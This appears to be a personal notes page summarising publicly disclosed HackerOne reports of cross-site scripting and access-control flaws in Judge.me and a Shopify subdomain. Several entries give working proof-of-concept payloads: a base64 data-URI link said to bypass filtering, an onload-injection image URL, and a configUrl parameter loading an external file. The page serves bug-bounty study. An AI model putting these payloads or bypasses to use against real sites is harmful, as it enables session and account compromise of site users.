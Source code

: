 # 😁 02



## 01

### \[Judge.me] Stored XSS in Public Profile Reviews(1398285)

> None - XSS - 250

{% embed url="https://hackerone.com/reports/1398285" %}

The attacker can inject the payload into the shop addition options.

1. go to the user profile
2. click add recommendation, the payload is a link tag: `<a href="data:text/html;charset=utf-7;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=">`Click Here`</a>`

(It seems the base64 encode can bypass the check)

3. click on HTML tag, the XSS will be triggered.

> Test the stored-XSS at the profile page by injecting an URL tag.



### \[Judge.me] Improper Access Control in Ali Express Importer

> Medium - Improper Access Control - 500

{% embed url="https://hackerone.com/reports/1609955" %}

The reporter has reported three kinds of this vulnerability(1450807, 1382652).



### \[Judge.me] Self-XSS due to image URL can be exploited via XSSJacking techniques in review email

> Medium - XSS - 500

{% embed url="https://hackerone.com/reports/1397940" %}

&#x20; 1 . Login and add a new recommendation&#x20;

2. Go back to the recommendation list, click the pencil icon in the image and insert this payload to trigger the Self-XSS:

> [https://secure.gravatar.com/avatar/█████████.png?;'onload=alert(document.domain)>](https://secure.gravatar.com/avatar/%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88.png?;%27onload=alert\(document.domain\)%3E)



## 02&#x20;

### \[Shopify]XSS at jamfpro.shopifycloud.com

> Medium - XSS - 9,400

{% embed url="https://hackerone.com/reports/1444682" %}

* Payload : [https://jamfpro.shopifycloud.com/classicapi/doc/?configUrl=data:text/html;base64,ewoidXJsIjogImh0dHBzOi8vdGVhcmZ1bC1lYXJ0aC5zdXJnZS5zaC90ZXN0LnlhbWwiLAp9](https://jamfpro.shopifycloud.com/classicapi/doc/?configUrl=data:text/html;base64,ewoidXJsIjogImh0dHBzOi8vdGVhcmZ1bC1lYXJ0aC5zdXJnZS5zaC90ZXN0LnlhbWwiLAp9)





## 04

>
